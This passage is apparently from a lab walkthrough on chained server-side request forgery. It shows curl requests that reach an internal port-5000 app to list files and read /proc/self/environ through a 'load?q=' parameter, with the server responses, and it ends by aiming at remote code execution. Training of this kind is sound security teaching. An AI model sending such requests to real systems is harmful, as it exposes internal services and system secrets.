 We have found another application listening on port 5000. In this case, the application responds with a list of files.

#### cURL - Interacting with the Target

```shell
p3ta@htb[/htb]$ curl -i -s "http://<TARGET IP>/load?q=http://internal.app.local/load?q=http::////127.0.0.1:5000/"

HTTP/1.0 200 OK
Content-Type: text/html; charset=utf-8
Content-Length: 385
Server: Werkzeug/2.0.2 Python/3.8.12
Date: Tue, 19 Oct 2021 20:30:07 GMT

<html><body><h1>Resource: http://127.0.0.1:5000/</h1><a>total 24K
drwxr-xr-x 1 root root 4.0K Oct 19 20:29 .
drwxr-xr-x 1 root root 4.0K Oct 19 20:29 ..
-rw-r--r-- 1 root root   84 Oct 19 16:32 index.html
-rw-r--r-- 1 root root 1.2K Oct 19 16:32 internal.py
-rw-r--r-- 1 root root  691 Oct 19 20:29 internal_local.py
-rwxr-xr-x 1 root root   69 Oct 19 16:32 start.sh
 </a></body></html>
```

Let us make a quick recap of what we have achieved:

-   Issue requests on behalf of ubuntu-web to internal.app.local
-   Reach a web application listening on port 5000 inside internal.app.local chaining two SSRF vulnerabilities
-   Disclose a list of files via the internal application

Let us now uncover the source code of the web applications listening on `internal.app.local` to see how we can achieve remote code execution.

Let us issue a request to disclose `/proc/self/environ` file, where the current path should be present under the `PWD` environment variable.

#### cURL - Interacting with the Target

```shell
p3ta@htb[/htb]$ curl -i -s "http://<TARGET IP>/load?q=http://internal.app.local/load?q=file:://///proc/self/environ" -o -

HTTP/1.0 200 OK
Content-Type: text/html; charset=utf-8
Content-Length: 584
Server: Werkzeug/2.0.2 Python/3.8.12
Date: Tue, 19 Oct 2021 16:52:20 GMT

<html><body><h1>Resource: file:///proc/self/environ</h1><a>HOSTNAME=18f236843662PYTHON_VERSION=3.8.12PWD=/appPORT=80PYTHON_SETUPTOOLS_VERSION=57.5.0HOME=/rootLANG=C.UTF-8GPG_KEY=E3FF2839C048B25C084DEBE9B26995E310250568SHLVL=0PYTHON_PIP_VERSION=21.2.4PYTHON_GET_PIP_SHA256=01249aa3e58ffb3e1686b7141b4e9aac4d398ef4ac3012ed9dff8dd9f685ffe0PYTHON_GET_PIP_URL=https://github.com/pypa/get-pip/raw/d781367b97acf0ece7e9e304bf281e99b618bf10/public/get-pip.pyPATH=/usr/local/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin_=/usr/local/bin/python3</a></body></html>
```
